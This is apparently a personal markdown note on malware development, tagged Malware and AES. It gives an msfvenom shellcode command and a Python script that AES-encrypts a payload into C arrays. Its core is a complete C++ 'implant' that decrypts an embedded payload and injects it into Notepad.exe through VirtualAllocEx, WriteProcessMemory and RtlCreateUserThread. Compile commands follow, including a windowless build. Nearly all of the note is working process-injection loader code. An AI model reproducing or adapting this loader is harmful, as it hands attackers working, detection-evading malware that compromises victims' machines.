

---
title:
draft:
tags:
  - AES
  - DAR
  - encryption
  - Executable
  - Malware
related:
---


![[Pasted image 20260312130918.png]]



> [!danger] MSF
>```bash
>msfvenom -p windows/x64/exec --platform windows -a x64 CMD=calc.exe -f raw -o calc.ico
>```

### AES Encryption

> [!info]- AES Encryption
>```python
>import sys
>import os
>import hashlib
>import ctypes
>
># -----------------------------
># PKCS7 Padding
># -----------------------------
>def pad(data, block_size=16):
>    pad_len = block_size - (len(data) % block_size)
>    return data + bytes([pad_len] * pad_len)
>
>def xor_bytes(a, b):
>    return bytes(x ^ y for x, y in zip(a, b))
>
># -----------------------------
># Load Lib libcrypto.so
># -----------------------------
>libcrypto = ctypes.CDLL("libcrypto.so")
>
>AES_ENCRYPT = 1
>
>class AES_KEY(ctypes.Structure):
>    _fields_ = [("rd_key", ctypes.c_uint * 60),
>                ("rounds", ctypes.c_int)]
>
>AES_set_encrypt_key = libcrypto.AES_set_encrypt_key
>AES_set_encrypt_key.argtypes = [ctypes.c_char_p, ctypes.c_int,
>                                ctypes.POINTER(AES_KEY)]
>AES_set_encrypt_key.restype = ctypes.c_int
>
>AES_encrypt = libcrypto.AES_encrypt
>AES_encrypt.argtypes = [ctypes.c_char_p, ctypes.c_char_p,
>                        ctypes.POINTER(AES_KEY)]
>AES_encrypt.restype = None
>
>def aes_encrypt_block(block: bytes, key: bytes) -> bytes:
>    aes_key = AES_KEY()
>    AES_set_encrypt_key(key, 256, ctypes.byref(aes_key))
>    out = ctypes.create_string_buffer(16)
>    AES_encrypt(block, out, ctypes.byref(aes_key))
>    return out.raw
>
>def aes_cbc_encrypt(data: bytes, key: bytes, iv: bytes) -> bytes:
>    prev = iv
>    blocks = []
>    for i in range(0, len(data), 16):
>        block = xor_bytes(data[i:i+16], prev)
>        enc = aes_encrypt_block(block, key)
>        blocks.append(enc)
>        prev = enc
>    return b"".join(blocks)
>
># -----------------------------
># main
># -----------------------------
>if len(sys.argv) < 2:
>    print(f"Usage: {sys.argv[0]} <payload file>")
>    sys.exit(1)
>
>plaintext = open(sys.argv[1], "rb").read()
>
>KEY = os.urandom(16)
>AES_KEY_DERIVED = hashlib.sha256(KEY).digest()
>IV = b"\x00" * 16
>
>ciphertext = aes_cbc_encrypt(pad(plaintext), AES_KEY_DERIVED, IV)
>
>print("AESkey[] = { 0x" + ", 0x".join(hex(x)[2:] for x in KEY) + " };")
>print("payload[] = { 0x" + ", 0x".join(hex(x)[2:] for x in ciphertext) + " };")
>```

### Classic Injection Native API

> [!danger]+ NTDLL Wrappers 
>```cpp
>#include <windows.h>
>#include <tlhelp32.h>
>#include <iostream>
>#include <string>
>#include <wincrypt.h>
>
>//#pragma comment (lib, "crypt32.lib")
>//#pragma comment (lib, "advapi32")
>
>using VirtualAlloc_t = LPVOID (WINAPI*)(LPVOID,SIZE_T,DWORD,DWORD);
>using RtlMoveMemory_t = VOID   (WINAPI*)(VOID UNALIGNED*, const VOID UNALIGNED*, SIZE_T);
>
>extern "C" {
>typedef struct _CLIENT_ID {
>	HANDLE UniqueProcess;
>	HANDLE UniqueThread;
>} CLIENT_ID, *PCLIENT_ID;
>
>
>typedef NTSTATUS (NTAPI *RtlCreateUserThread_t)(
>	IN HANDLE ProcessHandle,
>	IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL,
>	IN BOOLEAN CreateSuspended,
>	IN ULONG StackZeroBits,
>	IN OUT PULONG StackReserved,
>	IN OUT PULONG StackCommit,
>	IN PVOID StartAddress,
>	IN PVOID StartParameter OPTIONAL,
>	OUT PHANDLE ThreadHandle,
>	OUT PCLIENT_ID ClientId);
>
>typedef NTSTATUS (NTAPI *NtCreateThreadEx_t)(
>	OUT PHANDLE hThread,
>	IN ACCESS_MASK DesiredAccess,
>	IN PVOID ObjectAttributes,
>	IN HANDLE ProcessHandle,
>	IN PVOID lpStartAddress,
>	IN PVOID lpParameter,
>	IN ULONG Flags,
>	IN SIZE_T StackZeroBits,
>	IN SIZE_T SizeOfStackCommit,
>	IN SIZE_T SizeOfStackReserve,
>	OUT PVOID lpBytesBuffer);
>
>} // extern "C"
>
>DWORD EnumProc(const std::wstring& procName) {
>  DWORD pid = 0;
>  HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
>
>  if (hSnapshot == INVALID_HANDLE_VALUE) {
>     std::wcerr << L"Error: Could not create process snapshot. Error Code: " << GetLastError() << std::endl;
>     return 0; 
> }
>
> PROCESSENTRY32W pe32 = { 0 };
> pe32.dwSize = sizeof(PROCESSENTRY32W);
>
> if (!Process32FirstW(hSnapshot, &pe32)) {
>     std::wcerr << L"Error: Process32First failed. Error Code: " << GetLastError() << std::endl;
>     CloseHandle(hSnapshot);
>     return 0;
> }
>
> do {
>     if (lstrcmpiW(pe32.szExeFile, procName.c_str()) == 0) {
>         pid = pe32.th32ProcessID;
>         break;
>      }
>  } while (Process32NextW(hSnapshot, &pe32));
>
>  CloseHandle(hSnapshot);
>  return pid;
>}
>
>
>
>int AESDecrypt(char *payload, unsigned int payload_len, char * key, size_t keylen) {
>	HCRYPTPROV hProv;
>	HCRYPTHASH hHash;
>	HCRYPTKEY hKey;
>
>	if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
>			return -1;
>	}
>	if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
>			return -1;
>	}
>	if (!CryptHashData(hHash, (BYTE*) key, (DWORD) keylen, 0)){
>			return -1;              
>	}
>	if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
>			return -1;
>	}
>	
>	if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, (BYTE *) payload, (DWORD *) &payload_len)){
>			return -1;
>	}
>	
>	CryptReleaseContext(hProv, 0);
>	CryptDestroyHash(hHash);
>	CryptDestroyKey(hKey);
>	
>	return 0;
>}
>
>BYTE payload[] = { 0x34, 0x58, 0xec, 0xfd, 0xa9, 0x5b, 0x22, 0x2e, 0xd3, 0x5, 0xa, 0x39, 0x3e, 0xad, 0x53, 0x3b, 0xcd, 0x93, 0x6b, 0x91, 0x5, 0x37, 0xc7, 0xc3, 0x0, 0xa2, 0x78, 0xa9, 0x42, 0x9e, 0x87, 0xef, 0x7b, 0xd9, 0x55, 0xf4, 0xaf, 0xf4, 0x34, 0x1b, 0xfd, 0x67, 0x90, 0x94, 0x63, 0x6a, 0x49, 0xd9, 0xb3, 0x59, 0x14, 0x28, 0x94, 0xec, 0xf0, 0x88, 0x21, 0x1f, 0xc1, 0xa5, 0xaa, 0x53, 0x21, 0xd8, 0x98, 0x3, 0xf0, 0xa9, 0x73, 0x6a, 0xb4, 0x35, 0xaa, 0x5f, 0x8f, 0x3c, 0xe2, 0x55, 0x60, 0xe2, 0xc5, 0x98, 0x86, 0x27, 0xa, 0x39, 0x8e, 0x37, 0xd0, 0xd0, 0xaa, 0xe2, 0x7d, 0x1c, 0xe1, 0x8f, 0xa7, 0xc, 0x85, 0x32, 0x8c, 0x24, 0x42, 0xc5, 0xa7, 0x41, 0x48, 0x4b, 0x29, 0x1e, 0x13, 0x80, 0x45, 0xe4, 0xf4, 0xd6, 0xbb, 0x3f, 0x72, 0x13, 0x11, 0x6a, 0x28, 0xcb, 0x11, 0x84, 0x57, 0x7c, 0x75, 0x32, 0x28, 0x41, 0x3d, 0xcd, 0xc4, 0xb0, 0x6b, 0x49, 0x84, 0x63, 0x15, 0xb7, 0xc2, 0x1f, 0xe7, 0xa6, 0x22, 0x54, 0xe2, 0xc0, 0xf9, 0x2, 0xcb, 0xeb, 0x4c, 0xd9, 0x31, 0xf3, 0x1, 0x5b, 0x1a, 0xd4, 0xd9, 0x25, 0x7c, 0x3c, 0x8a, 0xa4, 0xec, 0xac, 0x39, 0x5f, 0x6c, 0x77, 0xab, 0x64, 0xb9, 0x1a, 0x23, 0xaa, 0xf5, 0xaa, 0xd0, 0x13, 0xce, 0xb2, 0x9c, 0xf3, 0x69, 0x2e, 0x6, 0x3f, 0x33, 0xc0, 0x57, 0x52, 0x27, 0x0, 0x78, 0xb1, 0xda, 0x8e, 0xac, 0x6b, 0x5e, 0x7d, 0x7b, 0xc8, 0x8, 0xad, 0x52, 0xdd, 0xf, 0x39, 0x84, 0x83, 0xbc, 0x72, 0x47, 0xfb, 0x19, 0x61, 0x3a, 0xb5, 0x1b, 0x62, 0x27, 0x7c, 0x4f, 0xbf, 0xc3, 0x6f, 0xe8, 0x97, 0x49, 0x64, 0xfe, 0x6a, 0x85, 0x8f, 0x2, 0x94, 0x32, 0x16, 0x52, 0x65, 0xbc, 0x9, 0x51, 0x8b, 0xcf, 0x3a, 0x4e, 0x50, 0x21, 0x8, 0x98, 0x2e, 0x17, 0x83, 0xcb, 0x37, 0xfb, 0x1f, 0x27, 0xd5, 0xa5, 0x4d, 0xf8, 0xc, 0x57, 0x4f, 0x33, 0xb9, 0x82, 0x25, 0xf1, 0x69, 0x65, 0xa7, 0x94, 0x2d, 0x54, 0xd3, 0xb7, 0x8f, 0x2f, 0xef };
>BYTE key[] = { 0xba, 0xee, 0x37, 0x4d, 0x76, 0x8a, 0x83, 0x31, 0x56, 0x56, 0x2, 0xfc, 0x98, 0xe9, 0x17, 0xc0 };
>
>int main(){
>
>    // Get ProcId
>   DWORD PID {EnumProc(L"Notepad.exe")};
>   if(!PID)
>    std::wcerr << "Process Not Found";
>
>    std::wcout << "Process ID : " << PID << "\n";
>
>    size_t keysz {sizeof(key)};
>    size_t payloadsz {sizeof payload};
>
>    HANDLE Hproc{OpenProcess(PROCESS_CREATE_THREAD
>        |PROCESS_QUERY_INFORMATION
>        |PROCESS_VM_OPERATION 
>        |PROCESS_VM_READ 
>        |PROCESS_VM_WRITE,FALSE,PID)};
>
>    if(!Hproc)
>        return 0x1;
>    
>    RtlCreateUserThread_t pRtlCreateUserThread = (RtlCreateUserThread_t) GetProcAddress(GetModuleHandleW(L"NTDLL.DLL"), "RtlCreateUserThread");
>    //NtCreateThreadEx_t pNtCreateThreadEx = (NtCreateThreadEx_t) GetProcAddress(GetModuleHandle("NTDLL.DLL"), "NtCreateThreadEx");
>
>    AESDecrypt((char *) payload, payloadsz, (char *) key, keysz);
>
>    LPVOID pRemoteCode{VirtualAllocEx(Hproc, NULL, payloadsz,MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READ)};
>
>	WriteProcessMemory(Hproc, pRemoteCode, (PVOID) payload, (SIZE_T) payloadsz, (SIZE_T *) NULL);
>
>    HANDLE hThread = NULL;
>    CLIENT_ID cid;
>	pRtlCreateUserThread(Hproc, nullptr, FALSE, 0, 0, 0, pRemoteCode, 0, &hThread, &cid);
>    //pNtCreateThreadEx(&hThread, GENERIC_ALL, NULL, hProc, (LPTHREAD_START_ROUTINE) pRemoteCode, NULL, NULL, NULL, NULL, NULL, NULL);
>
>    if(!hThread){
>        std::cout << "Error Create Remote Thread\n";
>        CloseHandle(Hproc);
>        return 0x01;
>    }
>
>    WaitForSingleObject(hThread,500);
>    CloseHandle(hThread);
>    CloseHandle(Hproc);
>
>return 0x0000;
>}
>```

## Compile Time

> [!hint]+ Windows Build (cl.exe)
> ```batch
> @ECHO OFF
> cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
> ```

> [!hint]+ MinGW Compiler With Console
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -O3 -static -w -fno-stack-protector -fno-exceptions -fno-rtti -DNDEBUG -s -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler Without Console
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -O3 -static -w -fno-stack-protector -fno-exceptions -fno-rtti -DNDEBUG -mwindows -s -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler For Debug
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -g -O0 -Wall -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler Strong Security
> ```bash
> x86_64-w64-mingw32-g++ implantc.cpp -O2 -D_FORTIFY_SOURCE=2 -fstack-protector-strong -fstack-clash-protection -Wl,--dynamicbase -Wl,--nxcompat -Wl,--high-entropy-va -Wall -Wextra -o secure.exe
> ```

> [!hint]+ MinGW Compiler Hard Reverse
> ```bash
> x86_64-w64-mingw32-g++ main.cpp -O3 -flto -fstack-protector-strong -fstack-clash-protection -fPIE -pie -s -o hard.exe
> x86_64-w64-mingw32-strip --strip-all hard.exe
> ```
